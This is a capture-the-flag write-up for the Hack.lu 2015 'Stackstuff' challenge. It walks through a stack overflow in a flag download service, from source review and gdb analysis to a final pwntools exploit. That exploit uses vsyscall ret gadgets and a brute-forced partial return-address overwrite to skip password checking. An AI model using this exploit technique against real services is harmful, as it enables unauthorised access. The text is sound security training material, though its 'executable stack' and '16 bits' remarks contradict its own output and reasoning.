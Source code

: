 ```yaml
---
title:      Hack.lu 2015 - Stackstuff 150
author:     Alessandro "q3_C0d3" Guagnelli
date:       2015-10-23 09:00:00
summary:    Stuck overflow with PIE
categories: Hack.lu 2015 Exploitable
tags:
 - Hack.lu 2015
 - Exploitable
 - Stack overflow
---
```

> Welcome to the Progressive Secure Coding course! Here, you will learn how to properly secure your software without making it too slow. For example, you should use C. And compile your code for 64bit, because then you don't need stack cookies, the pointers are random enough.
Test your attack on a box with Linux >=3.4!
Connect to school.fluxfingers.net:1514


This challenge provided us with the executable and the source code. Let's analyze the binary and see what we find out:
    $ file hackme
    hackme: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=f46fbf9b159f6a1a31893faf7f771ca186a2ce8d, not stripped
    $ checksec.sh --file hackme
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    No RELRO        No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   hackme

So, we have executable stack, no canary and PIE enabled. We don't have to decompile the executable, since we are given the source code, and we can easily find the vulnerability:
{% highlight C%}
// gcc -o hackme hackme.c -fPIE -pie -Wall -fomit-frame-pointer

#include <stdio.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define PORT 1514

int negchke(int n, const char *err) {
  if (n < 0) {
    perror(err);
    exit(1);
  }
  return n;
}

char real_password[50];

int check_password_correct(void) {
  char buf[50] = {0};

  puts("To download the flag, you need to specify a password.");
  printf("Length of password: ");
  int inlen = 0;
  if (scanf("%d\n", &inlen) != 1) {
    // peer probably disconnected?
    exit(0);
  }
  if (inlen <= 0 || inlen > 50) {
    // bad input length, fix it
    inlen = 90;
  }
  if (fread(buf, 1, inlen, stdin) != inlen) {
    // peer disconnected, stop
    exit(0);
  }
  return strcmp(buf, real_password) == 0;
}

void require_auth(void) {
  while (!check_password_correct()) {
    puts("bad password, try again");
  }
}

void handle_request(void) {
  alarm(60);
  setbuf(stdout, NULL);

  FILE *realpw_file = fopen("password", "r");
  if (realpw_file == NULL || fgets(real_password, sizeof(real_password), realpw_file) == NULL) {
    fputs("unable to read real_password\n", stderr);
    exit(0);
  }
  fclose(realpw_file);

  puts("Hi! This is the flag download service.");
  require_auth();

  char flag[50];
  FILE *flagfile = fopen("flag", "r");
  if (flagfile == NULL || fgets(flag, sizeof(flag), flagfile) == NULL) {
    fputs("unable to read flag\n", stderr);
    exit(0);
  }
  puts(flag);
}

int main(int argc, char **argv) {
  if (strcmp(argv[0], "reexec") == 0) {
    handle_request();
    return 0;
  }

  int ssock = negchke(socket(AF_INET6, SOCK_STREAM, 0), "unable to create socket");
  struct sockaddr_in6 addr = {
    .sin6_family = AF_INET6,
    .sin6_port = htons(PORT),
    .sin6_addr = /*IN6ADDR_LOOPBACK_INIT*/ IN6ADDR_ANY_INIT
  };
  int one = 1;
  negchke(setsockopt(ssock, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one)), "unable to set SO_REUSEADDR");
  negchke(bind(ssock, (struct sockaddr *)&addr, sizeof(addr)), "unable to bind");
  negchke(listen(ssock, 16), "unable to listen");

  signal(SIGCHLD, SIG_IGN); /* no zombies */

  while (1) {
    int client_fd = negchke(accept(ssock, NULL, NULL), "unable to accept");
    pid_t pid = negchke(fork(), "unable to fork");
    if (pid == 0) {
      close(ssock);
      negchke(dup2(client_fd, 0), "unable to dup2");
      negchke(dup2(client_fd, 1), "unable to dup2");
      close(client_fd);
      negchke(execl("/proc/self/exe", "reexec", NULL), "unable to reexec");
      return 0;
    }
    close(client_fd);
  }
}
{% endhighlight %}

In short, our service compares the password we enter with the real password read from the file, and if the password is correct it gives us the flag. I wonder if there's a way to skip that require_auth() function... Wait, are you sure that you really want to read 90 characters on a 50 characters buffer if the user supply a wrong password length? I thought we were here to learn secure coding, but an attacker can easily control the saved RIP and control the program flow!

# Analyzing the vulnerability

The following python script will send 90 characters to the service.
{% highlight python%}
from pwn import *

host = 'localhost'
port = 1514

conn = remote(host, port)
payload = cyclic(90)
conn.recvuntil('password: ')
conn.sendline('55')
raw_input()
conn.send(payload)
print conn.recv(4000)
{% endhighlight %}

To understand how many characters we have to push before the saved RIP, we're gonna need gdb. We will usi it to connect to the service just after we send the payload to analyze the stack just before the check_password_correct() function returns:
    $ ps -a | grep exe
    8214 pts/1    00:00:00 exe
    $ sudo gdb attach 8214
    gdb-peda$ disas check_password_correct 
    Dump of assembler code for function check_password_correct:
    0x00007f4713575ed2 <+0>: sub    rsp,0x58
    [...]
    0x00007f4713575fa8 <+214>: call   0x7f4713575c80 <strcmp@plt>
    0x00007f4713575fad <+219>: test   eax,eax
    0x00007f4713575faf <+221>: sete   al
    0x00007f4713575fb2 <+224>: movzx  eax,al
    0x00007f4713575fb5 <+227>: add    rsp,0x58
    0x00007f4713575fb9 <+231>: ret
    
    gdb-peda$ b *check_password_correct + 231
    Breakpoint 1 at 0x7f4713575fb9
    gdb-peda$ continue

    Breakpoint 1, 0x00007f4713575fb9 in check_password_correct ()
    gdb-peda$ x/10gx $rsp
    0x7ffd46f25108: 0x6161617461616173  0x6161617661616175
    0x7ffd46f25118: 0x00007f98631f6177  0x00000000ffffffff
    0x7ffd46f25128: 0x00007ffd46f25101  0x00007ffd46f272b6
    0x7ffd46f25138: 0x0000000000000000  0x00007ffd46f252c8
    0x7ffd46f25148: 0x00007f98631f8469  0x00007ffd46f272b6

The first thing we notice here is that we overwrote the return address from check_password_correct with 0x6161617461616173, that is the hex for 'aaataaas'. Using cyclic_find we can easily understand how many characters we have to write before our forged RIP:
    >>> from pwn import *
    >>> unhex('6161617461616173')
    'aaataaas'
    >>> cyclic_find('saaa')
    72

So, we have to write 72 characters before the RIP.
We can also notice another thing, that is that at 0x7ffd46f25118 we have the return address from the require_auth() function, but that we overwrote the last 2 bytes of this address. We can easily verify this:

    gdb-peda$ disas handle_request
    Dump of assembler code for function handle_request:
    [...]
    0x00007f98631f807a <+160>: lea    rdi,[rip+0x3a7]        # 0x7f98631f8428
    0x00007f98631f8081 <+167>: call   0x7f98631f7bc0 <puts@plt>
    0x00007f98631f8086 <+172>: call   0x7f98631f7fba <require_auth>
    0x00007f98631f808b <+177>: lea    rsi,[rip+0x36d]        # 0x7f98631f83ff
    0x00007f98631f8092 <+184>: lea    rdi,[rip+0x3b6]        # 0x7f98631f844f
    0x00007f98631f8099 <+191>: call   0x7f98631f7cd0 <fopen@plt>
    0x00007f98631f809e <+196>: mov    QWORD PTR [rsp+0x40],rax
    0x00007f98631f80a3 <+201>: cmp    QWORD PTR [rsp+0x40],0x0
    0x00007f98631f80a9 <+207>: je     0x7f98631f80c5 <handle_request+235>
    [...]

Good! We're almost there! On the stack we have 0x00007f98631f6177, and we want to return to 0x00007f98631f808b, that is, just after out require_auth() function. We know that pages are aligned, so we know that the last 12 bits of the address where we want to jump to are fixed to 0x08b. We overwrite 16 bits, so we are left with 4 unknown bits... Well, I think that a little of brute force won't be so bad, after all. Anyway, we still have stuff on the stack (or should I say stackstuff?) that we want to get rid of. If only I could make a pop-ret here!

# Looking for something useful

We know that PIE is enabled, so addresses are changing everytime, but after all we don't need that much: a pop-ret or a ret ret are enough. After a few hours of digging, I found something that could easily bring us to get that damn flag. Running a couple of time the executable and mapping memory sections, I found that the vsyscall memory area had its address fixed

    gdb-peda$ info proc mappings
    process 8329
    Mapped address spaces:

              Start Addr           End Addr       Size     Offset objfile
          0x7f9862c07000     0x7f9862dc7000   0x1c0000        0x0 /lib/x86_64-linux-gnu/libc-2.21.so
          [...]
          0x7ffd46f80000     0x7ffd46f82000     0x2000        0x0 [vdso]
      0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]

I hope that vsyscall has what we're looking for...

    gdb-peda$ X/20i 0xffffffffff600000
       0xffffffffff600000:  mov    rax,0x60
       0xffffffffff600007:  syscall 
       0xffffffffff600009:  ret    
       0xffffffffff60000a:  int3   
       0xffffffffff60000b:  int3   

Bingo! That's exactly what we need: a couple of syscall, and we're good to go. So we're gonna to return twice to 0xffffffffff600000 and then to our handle_request(), just after the require_auth() call! This is the final exploit (remember that we have to bruteforce 16 bits):
{% highlight python%}
from pwn import *

host = 'school.fluxfingers.net'
port = 1514

target = p64(0xffffffffff600000)
payload = 'a' * 72 + 2 * target + '\x8b\x10'
for i in range(0, 16):
  try:
    conn = remote(host, port)
    conn.recvuntil('password: ')
    conn.sendline('55')
    conn.send(payload)
    print conn.recv(4000)
    break
  except:
    conn.close()
    continue
{% endhighlight %}

And we have the flag: flag{MoRE_REtuRnY_tHAn_rop}